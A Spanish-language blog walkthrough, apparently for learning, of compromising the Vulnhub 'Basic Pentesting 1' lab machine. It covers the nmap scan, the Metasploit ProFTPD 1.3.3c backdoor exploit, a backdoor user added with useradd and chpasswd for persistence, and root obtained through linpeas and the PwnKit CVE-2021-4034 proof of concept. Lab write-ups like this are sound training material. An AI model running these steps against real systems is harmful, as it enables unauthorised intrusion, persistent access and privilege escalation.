 ```yaml
---
title: "Vulnhub #0: CSEC Basic Pentesting 1"
description: Pentesting a máquina CSEC 1 en Vulnhub
date: 2025-05-10
scheduled: 2025-05-10
tags:
  - hacking
layout: layouts/post.njk
---
```


Puedes descargar la máquina vulnerable desde [Vulnhub](https://www.vulnhub.com/entry/basic-pentesting-1,216/)

## Descubrimiento de host

Usamos `sudo netdiscover` para descubrir los host en la red.

Estas son las dos máquinas del laboratorio:

```plaintext
Kali:    192.168.0.16
Victima: 192.168.0.26
```

## Reconocimiento

Usamos `nmap -sT -p- -A 192.168.0.26 -oA resultados` para realizar un escaneo completo de puertos y servicios.

```
PORT   STATE SERVICE REASON  VERSION
21/tcp open  ftp     syn-ack ProFTPD 1.3.3c
22/tcp open  ssh     syn-ack OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
```

## Explotación

### Buscar exploit

Vamos a probar a romper `FTPd` con `metasploit`

Podemos lanzar metasploit con `msfconsole`

Si buscamos exploits con `search proFTPd` podemos encontrar una para nuestra version.

### Configuracion del exploit

Puedes usar `use unix/ftp/proftpd_133c_backdoor` para usar este exploit, tambien puedes usar su index.

Con show options vemos que debemos indicar el `rhosts`, `lhost` y un `exploit target` o payload a ejecutar.

Para ver los payloads disponibles `show payloads`.

Para cargar un payload `set payload index|path`. 

Para configurar la maquina a atacar `set rhosts 192.168.0.26`.

Para configurar que maquina se queda escuchando `set lhost 192.168.0.16`.

Lanzamos con `run`, deberíamos obtener acceso a una terminal, podemos comprobarlo con `whoami` o `ls`.

### Persistencia

Podemos crear un usuario con `useradd hhyyppeerr`.

Y crear una contraseña con `echo "hhyyppeerr:ilovesummer" | chpasswd`

Podemos comprobar que podemos entrar al sistema con `ssh hhyyppeerr@192.168.0.26` e introduciendo `ilovesummer` como contraseña.

## Escalado de privilegios

Copiamos `linpeas` o el script que queramos usar a la maquina objetivo con `scp ./linpeas.sh hhyyppeerr@192.168.0.26:/tmp/linpeas.sh`.

Entramos de nuevo en la maquina objetivo con nuestro usuario y lanzamos el script.

Linpeas nos ha mostrado el siguiente exploit disponible:

```
╔══════════╣ Executing Linux Exploit Suggester
╚ https://github.com/mzet-/linux-exploit-suggester                                                                            
[+] [CVE-2021-4034] PwnKit                                                                                                    

   Details: https://www.qualys.com/2022/01/25/cve-2021-4034/pwnkit.txt
   Exposure: probable
   Tags: [ ubuntu=10|11|12|13|14|15|16|17|18|19|20|21 ],debian=7|8|9|10|11,fedora,manjaro
   Download URL: https://codeload.github.com/berdav/CVE-2021-4034/zip/main
```

Podemos buscar el CVE para encontrar exploits, en nuestro caso: https://github.com/arthepsy/CVE-2021-4034

Nos copiamos el repositorio a la maquina objetivo con `nano` o `scp`.

Compilamos y ejecutamos el codigo:

```plaintext
$ ls
cve-2021-4034-poc.c  README.md
$ gcc cve-2021-4034-poc.c -o cve-2021-4034-poc
$ ls
cve-2021-4034-poc  cve-2021-4034-poc.c  README.md
$ ./cve-2021-4034-poc
# whoami
root
```